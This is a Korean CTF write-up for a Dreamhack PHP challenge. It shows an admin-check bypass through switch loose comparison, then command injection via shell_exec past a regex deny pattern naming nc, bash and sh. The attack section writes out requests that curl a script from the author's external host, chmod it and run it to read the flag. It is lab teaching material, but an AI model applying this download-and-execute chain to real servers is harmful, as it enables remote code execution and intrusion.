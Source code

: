 ```yaml
---
title: Switching Commnad
author: heogi
date: 2024-01-07
categories:
  - Dreamhack
  - CTF
tags:
  - Dreamhack
  - php
  - loose-comparision
comments: true
---
```

## **0\. Description**

Not Friendly service… Can you switching the command?

## **1\. Analysis**

페이지에 접속하면 Username을 입력할 수 있는 화면이 보인다.

다운로드 받은 코드를 확인해보면 사용자 입력값에 대해 json\_decode()를 통해 json 데이터를 파싱한다.

Username이 admin일 경우 Admin Session을 가지고 test.php로 이동한다.

```php
#index.php
if ($_SERVER["REQUEST_METHOD"]=="POST"){
    $data = json_decode($_POST["username"]);

    if ($data === null) {
        exit("Failed to parse JSON data");
    }
        
    $username = $data->username;

    if($username === "admin" ){
        exit("no hack");
    }

    switch($username){
        case "admin":
            $user = "admin";
            $password = "***REDACTED***";
            $stmt = $conn -> prepare("SELECT * FROM users WHERE username = ? AND password = ?");
            $stmt -> bind_param("ss",$user,$password);
            $stmt -> execute();
            $result = $stmt -> get_result();
            if ($result -> num_rows == 1){
                $_SESSION["auth"] = "admin";
                header("Location: test.php");
            } else {
                $message = "Something wrong...";
            }
            break;
        default:
            $_SESSION["auth"] = "guest";
            header("Location: test.php");
            
    }
}
```

첫번째 문제는 switch 문에서 case "admin"으로 진입해 admin 세션을 할당받아야하는데 "admin" 문자열은 필터링이 되고있다.

admin 필터링에서는 `===(strict comparision)`을 사용하여 자료형까지 같은지 확인하고있다.

하지만 switch/case 문에서는 아래 처럼 `loose comparision`을 사용한다고 되어있다.

![](../assets/img/Pasted%20image%2020240413002912.png)

이 부분을 이용하여 `username={"username":true}`를 입력하면 "admin" 필터링은 우회하며, case "admin": 문은 통과할 수 있다.

![](../assets/img/Pasted%20image%2020240413002927.png)
![](../assets/img/Pasted%20image%2020240413002934.png)
![](../assets/img/Pasted%20image%2020240413002943.png)

다음은 test.php의 내용을 통해 flag를 획득해야한다. 아래는 test.php의 내용이다.

```php
#test.php
$pattern = '/\b(flag|nc|netcat|bin|bash|rm|sh)\b/i';

if($_SESSION["auth"] === "admin"){

    $command = isset($_GET["cmd"]) ? $_GET["cmd"] : "ls";
    $sanitized_command = str_replace("\n","",$command);
    
    if (preg_match($pattern, $sanitized_command)){
        exit("No hack");
    }
    $resulttt = shell_exec(escapeshellcmd($sanitized_command));
}
```

cmd 파라미터를 통해 입력 받은 값을 `shell_exec()`로 실행한다.

과정에서 특정 문자열 패턴과 `escapeshellcmd()`를 통해 Sanitize를 수행한다.

결국 cmd는 서버 내부에서 실행되는 명령으로 다양한 서버 명령을 사용해볼 수 있다.

하지만 test.php에서 `$result` 변수는 화면에 출력이 되도록 되어있지만, `$resulttt`는 출력이 되지 않아 단순히 플래그를 실행하여 값을 확인할 수는 없다.

wget 또는 curl을 통해 원격지에서 파일을 받을 수 있는지 테스트해보니 curl을 통해 원격지 파일을 다운로드 받을 수 있음을 확인했다.

PHP 웹쉘 또는 `/flag`를 실행하여 pattern에 걸리지 않는 이름으로 파일을 생성하여 접근해보는 방법이 있을거같다.

## **2\. Attack**

후자로 진행을 해보면 아래 처럼 플래그를 획득할 수 있다.

```shell
#Filename:heogi
#!/bin/bash

/flag > te.ttt
```

```http
1. GET /test.php?cmd=curl ctf.heogi.com/heogi -o heogi
2. GET /test.php?cmd=chmod 777 heogi
3. GET /test.php?cmd=/var/www/html/heogi
4. GET /te.ttt
```

![](../assets/img/Pasted%20image%2020240413002955.png)